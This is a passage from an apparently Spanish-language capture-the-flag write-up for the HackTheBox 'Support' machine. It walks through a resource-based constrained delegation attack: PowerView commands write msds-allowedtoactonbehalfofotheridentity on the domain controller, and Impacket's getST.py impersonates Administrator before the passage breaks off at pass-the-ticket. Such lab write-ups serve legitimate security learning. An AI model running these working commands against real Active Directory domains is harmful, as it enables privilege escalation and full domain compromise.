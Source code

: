 Aplicamos la configuración necesaria de permisos para la delegación, otorgando estos permisos a la cuenta `SERVICEA` 

~~~ bash
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

~~~

Por último, asignamos el atributo que le permite a la cuenta `SERVICEA` actuar como otro usuario (`msds-allowedtoactonbehalfofotheridentity`)

~~~ bash
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
~~~

Verificaremos que la configuración se ha aplicado correctamente para llevar a cabo el ataque

~~~ bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
~~~

### RBCD - Getting a Service Ticket

Como ya tenemos permisos de delegación, utilizaremos el protocolo `S4U2Self` para obtener un TGS a nombre del usuario `Administrator`, para posteriormente conectarnos

~~~ bash
getST.py -spn cifs/DC.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
~~~


## PassTheTicket - `Administrator`

Ya hemos guardado el ticket en el archivo `Administrator.ccache`, para conectarnos necesitaremos exportar este archivo como una variable de entorno `KRB5CCNAME`
